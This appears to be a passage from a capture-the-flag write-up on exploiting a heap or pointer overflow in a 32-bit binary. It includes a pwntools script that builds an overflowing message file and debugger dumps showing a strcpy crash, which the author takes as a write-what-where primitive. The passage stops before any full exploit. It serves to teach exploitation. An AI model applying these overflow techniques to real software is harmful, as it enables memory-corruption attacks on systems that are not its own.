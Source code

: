 ```
>>> 0x804c480 - 0x804c3a8
216
```

Suspicion that we can overflow the two pointers with `A`s
```python
# make-pwnmsg.py
from pwn import *

with open('pwn.msg', 'w') as f:
    f.write('{}|{}\n'.format('a'*4, cyclic(216)))
    f.write('{}|{}\n'.format('b'*4, 'B'*10))
    f.write('{}|{}\n'.format('b'*4, 'C'*10))

```

```
[-------------------------------------REGISTERS-------------------------------------]
*EAX  0x62626262 ('bbbb')
*EBX  0x804c170 <-- 'bbbb'
*ECX  0x804c170 <-- 'bbbb'
*EDX  0x63616164 ('daac')
*EDI  0x0
*ESI  0xffffc9d0 <-- 1
*EBP  0xffffca68 <-- 0
*ESP  0xffffc83c --> 0x8048cd0 (main+539) <-- mov    eax, dword ptr [ebp - 0x4c]
*EIP  0xf7e95d82 <-- mov    dword ptr [edx], eax
[---------------------------------------CODE----------------------------------------]
 => 0xf7e95d82    mov    dword ptr [edx], eax
[-------------------------------------BACKTRACE-------------------------------------]
>  f 0 f7e95d82
   f 1  8048cd0 main+539
   f 2 f7e23a83 __libc_start_main+243
   f 3  8048741 _start+33
Program received signal SIGSEGV
```

Boom! Looks like we are overwriting the data in address `daac` (from our cyclic function) with `bbbb` (our second message). This is effectively a write-what-where condition.

Looking at 0x804cd0, we see that we are in a strcpy. Set breakpoint there and restart:

```
[---------------------------------------CODE----------------------------------------]
=> 0x8048ccb <main+534>    call   0x8048630 <strcpy@plt>
    dest:      0x63616164 ('daac')
    src:       0x804c170 <-- 'bbbb'
```

At the point of crash, our stack is in the following state:

```
[---------------------------------------STACK---------------------------------------]
00:0000| esp  0xffffc83c --> 0x8048cd0 (main+539) <-- mov    eax, dword ptr [ebp - 0x4c]
01:0004|      0xffffc840 <-- 0x63616164
02:0008|      0xffffc844 --> 0x804c170 <-- 'bbbb'
03:000c|      0xffffc848 --> 0x804c008 <-- 0xfbad2488
04:0010|      0xffffc84c <-- 'aaaabaaacaaadaa...'
05:0014|      0xffffc850 <-- 'baaacaaadaaaeaa...'
06:0018|      0xffffc854 <-- 'caaadaaaeaaafaa...'
07:001c|      0xffffc858 <-- 'daaaeaaafaaagaa...'
```
